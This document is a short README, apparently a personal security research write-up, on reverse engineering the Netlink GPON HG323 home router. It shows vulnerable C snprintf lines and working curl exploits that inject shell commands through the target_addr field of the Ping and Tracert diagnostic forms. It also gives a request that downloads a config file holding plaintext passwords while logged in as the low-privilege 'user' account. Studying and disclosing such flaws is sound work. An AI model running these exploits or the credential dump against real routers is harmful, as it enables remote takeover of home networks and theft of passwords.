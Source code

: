 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.16-191118

## RCE
Remote code can be executed by  exploiting either of the daignostics tool "Ping" or "Tracert". Inorder for this to work we should be logged in either as "user" or "admin"

### 1. formPing

vulnerable code


* snprintf(cmd_to_execute,0x100,"ping %s -c 4 -I %s -w 5 %s > /tmp/ping.tmp",param,interface_name,target_addr);


Here we can supply the "target_addr" with  "; payload"

exploit 

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formPing'


### 2. formTracert

similar to formPing

vulnerable code

* snprintf(cmd_to_execute,0x200,"traceroute %s -I -i %s %s > /tmp/tracert.tmp",param,&some_param,target_addr);

exploit

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formTracert'

## Dumping creds
We can use the rce exploit to view "/var/config/lastgood.xml" to view passwords or

There are two usernames for the web app
"user" and superuser "admin".
we can abuse the save  config file feature of admin  to get the config file while logged in as "user"

of course the passwords are stored in plain text.


exploit 


curl -s -L -d 'action=saveconfigfile&submit-url=' 'http://192.168.1.1/boaform/admin/formMgmConfig'

This gets the file "/var/config/lastgood.xml" 






